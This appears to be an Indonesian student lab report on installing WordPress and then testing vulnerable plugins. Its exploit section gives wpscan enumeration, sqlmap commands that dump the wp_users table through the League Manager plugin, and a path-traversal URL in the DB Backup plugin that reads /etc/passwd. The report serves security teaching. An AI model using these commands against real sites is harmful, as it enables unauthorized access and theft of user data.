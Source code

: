 # Laporan Tugas 2 PKSJ
## Pendahuluan
Laporan ini dibuat sebagai tugas 2 dari mata kuliah Peracangan Keamanan dan Sekuritas Jaringan. Pada laporan ini terdapat penjelasan-penjelasan dan hasil percobaan SQL Injection yang kami lakukan. 
Laporan ini disusun oleh :
Setiyo Adiwicaksono		:5113100020
Fajar Ade Putra			:5113100092
Anwar Rosyidi			:5113100180

## Dasar Teori
### OS yan digunakan
1.  Ubuntu Server 14.04 : Ubuntu server adalah ubuntu yang didesain untuk di install di server. Perbedaan mendasar, di Ubuntu Server tidak tersedia GUI. Jika anda menggunakan ubuntu server artinya anda harus bekerja dengan perintah perintah di layar hitam ayng sering disebut konsole. Jika anda datang dari windows, maka tampilan ubuntu server seperti DOS.
2.   Kali Linux adalah generasi baru dari BackTrack Linux, pemimpin industri Penetration Testing dan audit keamanan distribusi Linux. Kali Linux merupakan pembangunan kembali dari BackTrack Linux dari dasar dan mengikuti sepenuhnya standar pengembangan Debian.

### Tools yang digunakan
1. SSH Server :SSH adalah akronim dari Secure Shell yang merupakan sebuah protokol jaringan yang memanfaatkan kriptografi untuk melakukan komunikasi data pada perangkat jaringan agar lebih aman. Dalam konsepnya penggunaan SSH ini harus di dukung oleh server maupun perangkat atau komputer klien yang melakukan pertukaran data. Keduanya harus memiliki SSH server dari sisi komputer server dan SSH klien untuk komputer penerima (klien).
2. Tolong ditambahkan

## Uji coba
## Instalasi Wordpress
1. Pertama, lakukan koneksi ssh dengan server
```
ssh server@192.168.56
```
2. Lakukan instalasi apache server
```
sudo apt-get install apache2
```
![GitHub Logo](PKSJ2/apache.JPG)

3. Install database mysql
```
sudo apt-get install mysql-server php5-mysql
```
```
sudo mysql_install_db
```
```
sudo mysql_secure_installation
```
4. Install PHP
```
sudo apt-get install php5 libapache2-mod-php5 php5-mcrypt
```
untuk mengetahui apabila php sudah terinstall silahkan buat file php di var/www/html/ 
![GitHub Logo](PKSJ2/php.JPG)

5. Buat database untuk wordpress
- log in ke dalam mysql root
```
mysql -u root -p
```
-  Buat database wordpress
```
CREATE DATABASE wordpress;
```
- buat user untuk akses database
```
CREATE USER wordpressuser@localhost IDENTIFIED BY 'password';
```
- Berikan privileges akses kepada akun db yang kita buat
```
GRANT ALL PRIVILEGES ON wordpress.* TO wordpressuser@localhost;
```
```
FLUSH PRIVILEGES;
exit
```
## Download wordpress
1. Lakukan download wordpress dengan memasukan syntax
```
cd ~
wget http://wordpress.org/latest.tar.gz
```
![GitHub Logo](PKSJ2/dwwp.JPG)
2. Kemudian extract hasil download
```
tar xzvf latest.tar.gz
```
3. Install package yang diperlukan 
```
sudo apt-get update
sudo apt-get install php5-gd libssh2-php
```
## Konfigurasi wordpress
1. Buka directory wordpress
```
cd ~/wordpress
```
2. Membuat backup file config wordpress
```
cp wp-config-sample.php wp-config.php
```
3. buka wpconfig untuk melakukan konfigurasi database
```
nano wp-config.php
```
![GitHub Logo](PKSJ2/setingwp.JPG)

4. copy file yang ada pada directory wordpress ke document root
```
sudo rsync -avP ~/wordpress/ /var/www/html/
```
5. buka document root dan rubah ownership file wordpress
```
cd /var/www/html
sudo chown -R demo:www-data *
```
6. kemudian kita buat folder uploads pada document root dan rubah ownershipnya
```
mkdir /var/www/html/wp-content/uploads
sudo chown -R :www-data /var/www/html/wp-content/uploads
```
7. Selanjutnya lakukan konfigurasi dengan membuka halaman wordpress yang telah kita install
![GitHub Logo](PKSJ2/setwp.JPG)
![GitHub Logo](PKSJ2/setsuk.JPG)
8. Proses instalasi selesai dan kita bisa membuka halaman wp-admin
![GitHub Logo](PKSJ2/wpadmin.JPG)
### Hasil halaman wordpress yang berhasil diinstall
![GitHub Logo](PKSJ2/sip.JPG)

## Instalasi Plugin Wordpress
1. Silahkan buka bagian **wp-admin** dan silahkan buka bagian menu plugin. Lalu silahkan tekan tombol bagian **Add New**
![GitHub Logo](PKSJ2/plugin.JPG)

2. Silahkan tekan tombol upload plugin untuk mengupload plugin yang kita download secara external, ataupun langusng di search pada kolom serch plugin. Setelah muncul tombolo browse, silahkan pilih plugin mana yang ingin di install, dan silahkan langsung di install
![GitHub Logo](PKSJ2/plugin1.JPG)

## Exploit Wordpress Menggunakan Tools SQLMAP dan WPSCAN
### Exploit Wordpress menggunakan WPscan
Fungsi penggunaan wpscan dalam exploit kali ini adalah untuk mendeteksi celah keamanan dari sebuah web berbasis wordpress. Penggunaan wpscan adalah jalankan kode dibawah dengan terminal.
```
wpscan --url http://[url yang dituju] -enumerate
```
Maka akan muncul tanda yang menunjukan celah keamanan dari plugin yang sudah di install pada wordpress
![GitHub Logo](PKSJ2/wpscan2.JPG)

###Exploit dan Inject Sql menggunakan Sqlmap pada plugin league manager
1. Silahkan jalankan perintah dibawah ini untuk mengetahui bagaimana struktur tabel dari wordpress yang ada
```
sqlmap --url "http://[alamat yang dituju]/?match=1" --tables
```
![GitHub Logo](PKSJ2/sqlmaplm1.JPG)

2. Ketika kita ingin mengetahui bagaimana isi dari tabel yang kita inginkan, silahkan jalankan script dibawah ini
```
sqlmap --url "http://[alamat yang dituju]/?match=1" --dump -D [database yang diinginkan] -T [tabel yang diinginkan]
```
![GitHub Logo](PKSJ2/sqlmaplm2.JPG)

3. Pada case ini, kita akan mencoba membuka dan melihat tabel wp_users, makan masukkan perintah
```
sqlmap --url "http://10.151.36.128/?match=1" --dump -D wordpress -T wp_users
```
![GitHub Logo](PKSJ2/sqlmaplm3.JPG)
Bisa dilihat bahwa kita mendapatkan isi dari tabel wp_user, akan tetapi pada bagian password, hanya terlihat hasil enkripsinya karena di hash dictionary dari aplikasi sqlmap, tidak ada yang cocok dengan password user tersebut

###Mencari Celah Keamanan pada plugin DB Backup
1. Silahkan install plugin db Backup, dan silahkan masukkan url berikut pada browser anda untuk membuktikan celah keamanan db backup
```
[localhost]/wp-content/plugins/db-backup/download.php?file=/etc/passwd
```
2. Maka bisa dilihat bahwa kita bisa mendownload isi dari /etc/passwd dan mendapatkan password dari user yang ada pada server tersebut
![GitHub Logo](PKSJ2/jebol1.JPG)
Mendownload file passwd.passwd
![GitHub Logo](PKSJ2/jebol2.JPG)
Isi dari file passwd.passwd

##Kesimpulan

Dari hasil uji coba penetrasi SQL Injection didapatkan bahwa masih terdapat celah-celah yang dapat ditembus, kita dapat melakukan SQL Injection melalui celah yang terdapat pada plugin yang belum update walaupun wordpress sudah paling update terbaru.

##Saran

Periksalah update-update pada wordpress dan pluginya secara berkala, jika terdapat update pada wordpress dan plugin-plugin yang terinstall, segeralah untuk melakukan update karena celah-celah SQL Injection bisa terdapat pada plugin yang belum update tersebut.
